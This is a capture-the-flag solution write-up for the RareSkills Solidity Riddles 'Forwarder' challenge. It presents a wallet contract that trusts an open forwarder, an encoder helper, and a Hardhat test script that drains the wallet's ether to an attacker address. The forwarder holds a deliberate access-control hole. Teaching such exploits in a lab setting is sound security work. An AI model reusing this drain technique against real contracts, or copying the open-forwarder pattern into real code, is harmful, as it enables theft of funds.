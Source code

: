 ```yaml
---
title: RareSkills Solidity Riddles - Forwarder - Solution
date: '2023-11-26'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the RareSkills Solidity Riddles - Forwarder CTF
---
```


# RareSkills Riddles - Forwarder - Solution

## Contracts

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.15;

contract Wallet {
    address public immutable forwarder;

    constructor(address _forwarder) payable {
        require(msg.value == 1 ether);
        forwarder = _forwarder;
    }

    function sendEther(address destination, uint256 amount) public {
        require(msg.sender == forwarder, "sender must be forwarder contract");
        (bool success,) = destination.call{value: amount}("");
        require(success, "failed");
    }
}

contract Forwarder {
    function functionCall(address a, bytes calldata data) public {
        (bool success,) = a.call(data);
        require(success, "forward failed");
    }
}
```

## Exploit

To solve this challenge, we have to pass the correct abi-encoded data into the `functionCall` function of the `Forwarder` contract. More specifically, we want to specify `data` such that `functionCall` calls `sendEther` with `destination` set to our attacker wallet's address and `amount` set to 1 ether.

One straightforward way to generate this data is to use the following `Encoder` helper contract:

_Forwarder.sol_

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.15;

contract Wallet {
    ...
}

contract Forwarder {
    ...
}

contract Encoder {
    function encode(address destination, uint256 amount) external pure returns (bytes memory) {
        return abi.encodeWithSignature("sendEther(address,uint256)", destination, amount);
    }
}
```

Using `encode`, we can then perform our attack as follows:

_Forwarder.js_

```javascript
const { loadFixture } = require('@nomicfoundation/hardhat-network-helpers')
const { expect } = require('chai')
const { ethers } = require('hardhat')

const WALLET_NAME = 'Wallet'
const FORWARDER_NAME = 'Forwarder'
const NAME = 'Forwarder tests'

describe(NAME, function () {
  async function setup() {
    const [, attackerWallet] = await ethers.getSigners()
    const value = ethers.utils.parseEther('1')

    const forwarderFactory = await ethers.getContractFactory(FORWARDER_NAME)
    const forwarderContract = await forwarderFactory.deploy()

    const walletFactory = await ethers.getContractFactory(WALLET_NAME)
    const walletContract = await walletFactory.deploy(forwarderContract.address, { value: value })

    return { walletContract, forwarderContract, attackerWallet }
  }

  describe('exploit', async function () {
    let walletContract, forwarderContract, attackerWallet, attackerWalletBalanceBefore
    before(async function () {
      ;({ walletContract, forwarderContract, attackerWallet } = await loadFixture(setup))
      attackerWalletBalanceBefore = await ethers.provider.getBalance(attackerWallet.address)
    })

    it('conduct your attack here', async function () {
      const encoderFactory = await ethers.getContractFactory('Encoder')
      const encoderContract = await encoderFactory.deploy()

      const data = await encoderContract.encode(
        attackerWallet.address,
        ethers.utils.parseEther('1')
      )

      await forwarderContract.functionCall(walletContract.address, data)
    })

    after(async function () {
      const attackerWalletBalanceAfter = await ethers.provider.getBalance(attackerWallet.address)
      expect(attackerWalletBalanceAfter.sub(attackerWalletBalanceBefore)).to.be.closeTo(
        ethers.utils.parseEther('1'),
        1000000000000000
      )

      const walletContractBalance = await ethers.provider.getBalance(walletContract.address)
      expect(walletContractBalance).to.be.equal('0')
    })
  })
})
```
